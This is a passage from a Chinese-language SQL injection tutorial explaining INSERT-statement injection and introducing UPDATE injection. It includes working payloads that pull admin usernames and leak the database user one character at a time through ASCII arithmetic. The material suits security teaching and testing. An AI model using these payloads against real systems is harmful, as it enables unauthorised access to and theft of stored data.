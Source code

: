 然后查看数据:
![](http://image.ixysec.com/image/sql/sql126.png)

注入数据：
```
1',2,3,(select username from admin limit 0,1));-- 
```
![](http://image.ixysec.com/image/sql/sql127.png)

然后查看数据:
![](http://image.ixysec.com/image/sql/sql128.png)

常见问题：
第一个：注入数据只能在string型的列位置，因为int型的列无法存放字符串。
第二个：列有长度限制，如果注入出的数据过长，则会显示不全，可以逐段注入数据(limit 0,1 或者 mid(password,1,n))。

还有一种更加复杂的情况：
```
INSERT INTO 表名(col1,col2,col3) VALUES('no','no','ok');   //我们能控制的参数是语句的最后一列。
```
这样我们无法像前面的例子那样，先闭合一个参数并重新构造后面的参数。我们只能想办法将数据插入到这一列当中，还得保证语句正常执行。

MySQL中不能使用加号做字符串拼接，因为在单引号后面也无法使用concat函数拼接。

这里需要利用MySQL的一个特性：
当把一个整数与一个字符值相加时，整数具有操作符优先级并“获胜”，比如下面的例子。
![](http://image.ixysec.com/image/sql/sql129.png)

可以利用这一技巧来提取任意数据，只须将数据转换为整数（除非该数据已经是整数），然后将它“加”到由你控制的字符串的词首部分，

```
a'+ascii(substr((select user()),1,1))+'
a'+ascii(substr((select user()),1,1)))#
```

我们假设只能控制最后一列，拼接后的语句为:
```
INSERT INTO student(name,sex,age,class) VALUES('no','no','no','a'+ascii(substr((select user()),1,1))+'')    //a与我们的user()数据库用户名的第一位的ascii码值相加，最后只会留下ascii码值插入到了数据库中
```
![](http://image.ixysec.com/image/sql/sql130.png)

然后查看数据
![](http://image.ixysec.com/image/sql/sql131.png)

只能一位一位插入，最后还原成字符。

#### UPDATE注入
##### 检测方法
和INSERT注入检测方法相同，请参考上面的检测方法。

##### 报错法
正常SQL语句：
```
UPDATE student SET name='name',sex='sex',age='age',class='class' WHERE id=1
```
